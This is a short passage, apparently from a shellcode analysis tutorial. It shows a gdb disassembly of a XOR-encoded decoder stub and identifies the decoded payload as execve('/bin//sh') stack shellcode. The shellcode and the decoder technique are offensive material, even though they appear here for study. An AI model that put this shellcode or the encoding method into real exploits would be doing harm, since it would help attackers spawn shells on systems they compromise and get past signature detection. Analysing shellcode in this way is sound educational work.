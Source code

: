 ```
(gdb) d 3
(gdb) c
Continuing.
Dump of assembler code for function code:
   0x0804a040 <+0>:	jmp    0x804a05f <code+31>
   0x0804a042 <+2>:	pop    esi
   0x0804a043 <+3>:	lea    edi,[esi+0x1]
   0x0804a046 <+6>:	xor    eax,eax
   0x0804a048 <+8>:	mov    al,0x1
   0x0804a04a <+10>:	xor    ebx,ebx
   0x0804a04c <+12>:	mov    bl,BYTE PTR [esi+eax*1]
   0x0804a04f <+15>:	xor    bl,0xaa
   0x0804a052 <+18>:	jne    0x804a064 <code+36>
   0x0804a054 <+20>:	mov    bl,BYTE PTR [esi+eax*1+0x1]
   0x0804a058 <+24>:	mov    BYTE PTR [edi],bl
   0x0804a05a <+26>:	inc    edi
   0x0804a05b <+27>:	add    al,0x2
   0x0804a05d <+29>:	jmp    0x804a04c <code+12>
   0x0804a05f <+31>:	call   0x804a042 <code+2>
=> 0x0804a064 <+36>:	xor    eax,eax
   0x0804a066 <+38>:	push   eax
   0x0804a067 <+39>:	push   0x68732f2f
   0x0804a06c <+44>:	push   0x6e69622f
   0x0804a071 <+49>:	mov    ebx,esp
   0x0804a073 <+51>:	push   eax
   0x0804a074 <+52>:	mov    edx,esp
   0x0804a076 <+54>:	push   ebx
   0x0804a077 <+55>:	mov    ecx,esp
   0x0804a079 <+57>:	mov    al,0xb
   0x0804a07b <+59>:	int    0x80
   0x0804a07d <+61>:	add    BYTE PTR [ecx+0x50aae3aa],cl
   0x0804a083 <+67>:	stos   BYTE PTR es:[edi],al
   0x0804a084 <+68>:	mov    DWORD PTR [edx-0x55ac551e],ebp
   0x0804a08a <+74>:	mov    DWORD PTR [edx-0x554f551f],ebp
   0x0804a090 <+80>:	or     ebp,DWORD PTR [edx-0x557f5533]
   0x0804a096 <+86>:	add    BYTE PTR [eax],al
End of assembler dump.
```

So if you notice this is exactly nothing but the `execve-stack` 
shellcode

```
=> 0x0804a064 <+36>:	xor    eax,eax
   0x0804a066 <+38>:	push   eax
   0x0804a067 <+39>:	push   0x68732f2f
   0x0804a06c <+44>:	push   0x6e69622f
   0x0804a071 <+49>:	mov    ebx,esp
   0x0804a073 <+51>:	push   eax
   0x0804a074 <+52>:	mov    edx,esp
   0x0804a076 <+54>:	push   ebx
   0x0804a077 <+55>:	mov    ecx,esp
   0x0804a079 <+57>:	mov    al,0xb
   0x0804a07b <+59>:	int    0x80
```
